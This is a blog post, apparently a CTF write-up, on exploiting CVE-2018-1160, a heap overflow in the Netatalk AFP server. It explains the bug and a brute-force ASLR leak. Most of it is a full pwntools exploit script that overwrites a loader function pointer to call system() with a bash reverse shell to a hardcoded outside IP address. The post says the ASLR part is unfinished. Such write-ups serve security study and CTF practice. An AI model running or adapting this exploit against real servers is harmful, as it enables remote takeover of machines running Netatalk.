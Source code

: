 ```yaml
---
layout: post
title: "CVE-2018-1160: Netatalk RCE"
date: 2022-07-15
permalink: /:title/
description: "Exploitation of an Apple Filing Protocol Server"
tags: [ctf, n-day]
share: true
comments: false
published: true
status: ongoing
---
```


---
* toc
{:toc}
---

This is the solution to a Pwnable.tw challenge, as well as
an n-day exploit. At the time of writing only ~~87~~ 88
players managed to solve it. The most troublesome part is
finding the correct offset against the challenge server,
which is `Ubuntu 16.04 Kernel x86-64 4.9.0`.

## Bug analysis 

The root cause has already been thoroughly explained in many other blog posts
so I won't delve too much into that.  
AFP (Apple Filing Protocol) is an old server protocol that can be thought as
SMB for Apple's filesystem.  
The vulnerability is a heap overflow in
`dsi_opensess.c` that occurs when trying to open a new session with the server.  
The 255 bytes overflow allows an attacker to overwrite the pointer at which
subsequent packets are written to. Given knowledge of the memory layout of the
process, the second packet can be used to overwrite function pointers in
memory, for example malloc's internal hooks (i.e. `__free_hook`).

What hasn't been touched upon as much is how to reliably defeat ASLR: the
original discovery of the bug abused the fact that the binary wasn't compiled
with PIE (Position Indipendent Executable) enabled.

## ASLR in Netatalk server

Due to the client-server architecture, the application behaves as a oracle by
crashing the thread when writing to an invalid memory address and responding
over the socket when writing to a valid one. Doing this allows an attacker to
leak a memory address in $$2^8 \cdot 3$$ attempts.

## ASLR bypass

_This is work in progress, the final exploit needs its offsets to be adjusted against the challenge's server._ 

## Exploitation strategy

Memory corruption attacks usually make use of existing
program functionalities to redirect control flow.
In this instance overwriting
`_rtld_global._dl_rtld_lock_recursive`, which is a function
invocked when `exit(...)` is called, is a reliable path to
obtain code execution as soon as the program tries to clean
up the thread used to handle the request.  
Its function arguments can be found in
`_rtld_global._dl_load_lock`.

## Full exploit code

```python
1  from pwn import *
2  from time import sleep
3  from random import uniform
4  
5  
6  elf = ELF('./afpd')
7  libc = ELF('./libc.so.6')
8  
9  DSI_FLAGS = {
10      "request": 0x0,
11      "response": 0x1
12  }
13  
14  DSI_CMD = {
15      "get_status": 0x3,
16      "open_sess": 0x4,
17      "tickle": 0x5
18  }
19  
20  if args['REMOTE']:
21      HOST = "chall.pwnable.tw"
22      PORT = 10002
23  else:
24      HOST = "localhost"
25      PORT = 5566
26  
27  def new_dsi_header(flag, command, request_id, offset, data_len):
28  
29      DSI_FLAGS = p8(flag, endian='big')
30      DSI_COMMAND = p8(command, endian='big')
31      DSI_REQUEST_ID = p16(request_id, endian='big')
32      DSI_ERROR = p32(offset, endian='big')
33      DSI_DATA_LENGTH = p32(data_len, endian='big')
34      DSI_RESERVED = p32(0x0, endian='big')
35  
36      pck  = DSI_FLAGS
37      pck += DSI_COMMAND
38      pck += DSI_REQUEST_ID
39      pck += DSI_ERROR
40      pck += DSI_DATA_LENGTH
41      pck += DSI_RESERVED
42  
43      return pck
44  
45  def send_afp(payload, req_id=0x0):
46  
47      context(endian='big')
48  
49      io = remote(HOST, PORT, level='error')
50  
51      error_code = 0x0
52  
53      p = p8(0x1, endian='big')
54      p += p8(16 + len(payload), endian='big')
55      p += p32(0x41414141)
56      p += p32(0x42424242)
57      p += p32(0x66666666)    # server quantum
58      p += p32(0x43434343)    # client/server id
59      p += payload            # cmd pointer
60  
61      packet = new_dsi_header(DSI_FLAGS["request"], DSI_CMD["open_sess"], req_id, error_code, len(p))
62      packet += p
63  
64      io.send(packet)
65      io.recv()
66  
67      try:
68          reverse_shell = b"bash -c 'bash -i >& /dev/tcp/139.162.131.224/12345 0>&1' \x00"
69          trigger = reverse_shell.ljust(0x5f8) + p64(libc_base + libc.symbols['system'], endian='little')
70          packet = new_dsi_header(DSI_FLAGS["request"], DSI_CMD["open_sess"], req_id+1, error_code, len(trigger))
71          packet += trigger
72      except:
73          pass
74  
75      try:
76          io.send(packet)
77          io.close()
78      except Exception as ex:
79          pass
80  
81  def bruteforce_aslr():
82      context(endian='big')
83      leak_addr = b''
84  
85      req_id = 0x0
86      error_code = 0x0
87  
88      if args['SKIP']:
89          return int(args['SKIP'], 0)
90  
91      for b in range(8):
92          for i in range(256):
93              print(f"[*] trying byte: {hex(i)} in offsetÊ{b}", end="\r")
94              io = remote(HOST, PORT, level='error')
95  
96              payload = b"\x01" + p8(0x11 + b) + b"a"*0x10 + leak_addr + p8(i)
97              packet = new_dsi_header(DSI_FLAGS["request"], DSI_CMD["open_sess"], req_id, error_code, len(payload))
98              packet += payload
99  
100              io.send(packet)
101              try:
102                  a = io.recv()
103                  leak_addr += p8(i)
104                  log.success(str(hex(i)))
105                  io.close()
106                  break
107              except:
108                  io.close()
109  
110      print("\n")
111      log.success(hex(u64(leak_addr,endian='little')) + "\n")
112  
113      return int.from_bytes(leak_addr, 'little')
114  
115  rtld_off = 0x61b060
116  _dl_load_lock_off = 2312
117  leaked_addr = bruteforce_aslr()
118  print("memory address: " + hex(leaked_addr))
119  
120  if args['LIBC_OFF']:
121      libc_base = leaked_addr - 0x817000
122      rtld_addr = libc_base + rtld_off + _dl_load_lock_off
123  
124      try:
125          send_afp(p64(rtld_addr, endian='little'))
126      except:
127          pass
128  else:
129      # try every memory page-aligned address (assuming leaked_addr is page-aligned)
130      # for offset in range(-0xfffff000, 0xfffff000, 0x1000):
131      for offset in range(0, 0x6000000, 0x1000):
132          for rtld_off in [0x61b060, 0xed4060]:
133  
134              libc_base = leaked_addr - offset
135              rtld_addr = libc_base + rtld_off + _dl_load_lock_off
136  
137              try:
138                  r = uniform(0, 0.2)
139                  print(f"[*] looking for libc base: {hex(libc_base + offset)} - {hex(offset)}, waiting {r}", end="\r")
140                  sleep(r)
141                  send_afp(p64(rtld_addr, endian='little'))
142              except:
143                  pass
144  
145      print("\n")
146      log.success("end")
```


